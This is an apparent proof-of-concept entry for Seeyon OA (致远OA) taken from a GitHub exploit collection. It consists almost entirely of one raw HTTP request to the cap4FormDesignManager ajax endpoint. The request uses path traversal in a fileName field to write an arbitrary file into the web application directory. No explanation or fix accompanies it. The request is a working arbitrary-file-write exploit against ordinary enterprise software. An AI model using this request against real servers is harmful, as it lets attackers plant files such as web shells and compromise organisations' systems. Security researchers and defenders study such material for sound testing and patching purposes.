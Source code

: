 # seeyon_cap4FormDesignManager_fileupload
product: 致远OA

```
POST /seeyon/ajax.do?method=ajaxAction&managerName=cap4FormDesignManager HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 331
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Cookie: ts=1728653264995; JSESSIONID=EADD9E1D7E239870F85E73935AC9AD34; loginPageURL=; login_locale=zh_CN; avatarImageUrl=5995465946958220283
Host: 192.168.18.129:8085
RequestType: AJAX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0

managerMethod=generateInfopath&arguments={"files":[{"fileName":"../../../../../../ApacheJetspeed/webapps/seeyon/11.txt","fileContent":"1111"}]}
```
from: https://github.com/wy876/POC/blob/main/%E8%87%B4%E8%BF%9COA/%E8%87%B4%E8%BF%9COA%E5%90%8E%E5%8F%B0%E8%A1%A8%E5%8D%95%E5%AF%BC%E5%85%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E.md
